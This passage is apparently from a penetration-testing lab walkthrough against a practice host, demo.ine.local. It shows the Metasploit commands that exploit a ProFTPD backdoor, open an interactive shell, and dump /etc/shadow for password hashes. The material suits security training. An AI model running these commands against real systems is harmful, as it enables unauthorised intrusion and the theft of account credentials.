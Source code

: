 ProFTPD has known vulnerabilities that can be exploited. We search for an exploit for **ProFTPD**:

```bash
searchsploit ProFTPD
```

Launch Metasploit, which we will use to exploit the ProFTPD service:

```bash
service postgresql start && msfconsole
```

- **Explanation**: `service postgresql start` starts the required PostgreSQL service for Metasploit, and `msfconsole` launches the Metasploit Framework console.

Set the target address globally in Metasploit:

```bash
setg rhosts demo.ine.local
```

Search for the **ProFTPD** exploit in Metasploit:

```bash
search ProFTPD
```

Use the identified exploit module:

```bash
use exploit/unix/ftp/proftpd_133c_backdoor
```

Run the exploit:

```bash
run
```

If successful, we will have a shell session on the target system. To get an interactive shell:

```bash
/bin/bash -i
```

---

#### 3. Dumping Linux Password Hashes

With root access to the system, we can dump the password hashes from the `/etc/shadow` file:

```bash
cat /etc/shadow
```

- **Explanation**: The `/etc/shadow` file contains the hashed passwords for system accounts. Only privileged users (e.g., root) can access this file.

We put our current Meterpreter session into the background:

```bash
background
```
